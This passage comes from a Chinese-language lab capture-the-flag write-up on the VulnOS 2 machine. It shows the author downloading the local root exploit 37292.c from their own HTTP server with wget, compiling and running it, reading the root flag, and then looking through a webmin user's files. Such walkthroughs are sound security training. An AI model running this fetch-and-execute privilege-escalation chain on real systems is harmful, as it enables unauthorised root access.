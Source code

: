 搜索一下相关漏洞：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338485.png" alt="image-20240205020857068" style="zoom:50%;" />

找到好几个本地提权漏洞，版本和其他信息都比较符合，一个一个试：

- [ ] 31347.c
- [x] 37292.c

运气不戳！！！

![image-20240205022612638](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338486.png)

```shell
# Client
python3 -m http.server 8888
# Server
wget http://192.168.244.133:8888/37292.c
gcc 37292.c
chmod +x a.out
./a.out
ls /root
# flag.txt
cat /root/flag.txt
# Hello and welcome.
# You successfully compromised the company "JABC" and the server completely !!
# Congratulations !!!
# Hope you enjoyed it.

# What do you think of A.I.?
```

 获取到 flag 了！！！

## 额外收获

看到[师傅的这个做法](https://blog.csdn.net/elephantxiang/article/details/121643471?spm=1001.2101.3001.6650.3&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-3-121643471-blog-111188731.235%5Ev43%5Econtrol&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7EBlogCommendFromBaidu%7ERate-3-121643471-blog-111188731.235%5Ev43%5Econtrol&utm_relevant_index=4)，让我才知道作者留了彩蛋！[原方法的师傅wp](https://g0blin.co.uk/vulnos-2-vulnhub-writeup/)在此！

拿到`webmin`以后，查找一下有无其他用户：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402050338487.png" alt="image-20240205023624829" style="zoom: 67%;" />

不过遗憾的是这个目录是进不去的，继续再`webmin`内查找一下：

```shell
cd webmin
ls -la
# total 596
# drwxr-x--- 3 webmin webmin   4096 May  3  2016 .
# drwxr-xr-x 4 root   root     4096 Apr 16  2016 ..
# -rw------- 1 webmin webmin     85 May  4  2016 .bash_history
# -rw-r--r-- 1 webmin webmin    220 Apr  9  2014 .bash_logout
# -rw-r--r-- 1 webmin webmin   3637 Apr  9  2014 .bashrc
# drwx------ 2 webmin webmin   4096 Apr 30  2016 .cache
# -rw-rw-r-- 1 webmin webmin 579442 Apr 30  2016 post.tar.gz
# -rw-r--r-- 1 webmin webmin    675 Apr  9  2014 .profile
tar zxvf post.tar.gz
```
